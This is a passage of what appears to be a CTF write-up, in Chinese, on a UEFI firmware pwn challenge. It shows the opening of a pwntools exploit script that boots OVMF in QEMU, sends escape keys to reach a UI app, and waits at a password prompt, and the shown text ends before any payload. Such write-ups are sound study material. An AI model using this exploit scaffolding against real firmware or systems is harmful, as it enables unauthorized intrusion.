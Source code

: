 故直接把控制流劫持到 if 里面即可：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   socat -,raw,echo=0 SYSTEM:"./exp.py"
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

# from lianpwn import *
from pwn import *
import subprocess

context.arch = "amd64"

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
lg = lambda s_name, s_val: print("\033[1;31;40m %s --> 0x%x \033[0m" % (s_name, s_val))
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

fname = "/tmp/uefipwn"
subprocess.call(["cp", "OVMF.fd", fname])
subprocess.call(["chmod", "u+w", fname])
io = process(
    [
        "qemu-system-x86_64",
        "-m",
        "64M",
        "-drive",
        "if=pflash,format=raw,file=" + fname,
        "-drive",
        "file=fat:rw:contents,format=raw",
        "-net",
        "none",
        "-nographic",
        "-s",
    ],
    env={},
)


def enterUiApp():
    context.log_level = "debug"
    rn(1)
    s(b"\x1b")
    s(b"\x1b")
    s(b"\x1b")
    s(b"\x1b")
    context.log_level = "info"


enterUiApp()

ru(b"Enter Password: \r\n")
```
